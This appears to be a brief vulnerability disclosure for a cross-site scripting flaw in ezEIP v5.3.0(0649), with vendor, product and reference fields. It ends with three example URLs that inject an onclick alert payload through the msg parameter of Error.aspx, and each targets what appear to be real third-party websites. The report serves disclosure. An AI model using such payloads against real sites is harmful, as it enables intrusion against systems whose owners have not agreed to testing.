 > [Description]
</br>
> ezEIP v5.3.0(0649) was discovered to contain a cross-site scripting vulnerability.
</br>
>
</br>
> ------------------------------------------
</br>
>
</br>
> [Vendor of Product]
</br>
> http://gzwhir.com/
</br>
>
</br>
> ------------------------------------------
</br>
>
</br>
> [Affected Product Code Base]
</br>
> ezEIP - ezEIP v5.3.0(0649)
</br>
>
</br>
> ------------------------------------------
</br>
>
</br>
> [Attack Type]
</br>
> Context-dependent
</br>
>
</br>
> ------------------------------------------
</br>
>
</br>
> [Reference]
</br>
> https://github.com/God-Pattern/ezEIP/blob/main/XSS%20Vulnerability.md
</br>
> ------------------------------------------
</br>
> [Examples]
> 
</br>
> 
</br>
> Examples_1
</br>
>http://qiqi.gzwhir.com:805/whir_system/module/security/Error.aspx?msg=%3Ca%20onclick=alert(1)%3EXSS%3C/a%3E
</br>
> Examples_2
</br>
>http://en.mobi-antenna.com/whir_system/module/security/Error.aspx?msg=%3Ca%20onclick=alert(1)%3EXSS%3C/a%3E
</br>
>Examples_3
</br>
>http://www.szfaosc.com/whir_system/module/security/Error.aspx?msg=%3Ca%20onclick=alert(1)%3EXSS%3C/a%3E
</br>
